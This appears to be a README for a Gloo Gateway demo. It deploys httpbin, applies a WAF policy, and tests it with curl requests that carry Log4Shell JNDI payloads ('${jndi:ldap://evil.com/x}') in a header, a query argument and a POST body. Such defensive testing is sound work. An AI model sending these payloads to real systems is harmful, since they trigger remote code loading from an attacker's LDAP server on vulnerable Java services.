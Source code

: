# The Elephant (Payload) in the Room: Handling Super-Sized Requests with Gloo Gateway


## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f log4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config


https://www.solo.io/blog/handling-super-sized-requests-with-gloo-edge/

```sh
kubectl apply -f log4shell/workspace.yaml --context gloo
kubectl apply -f log4shell/virtual-gateway.yaml --context gloo
kubectl apply -f log4shell/route-table.yaml --context gloo
```


## Test bad call

```sh
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```


## Apply Policy

```sh
kubectl apply -f log4shell/waf-policy.yaml --context gloo
```

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
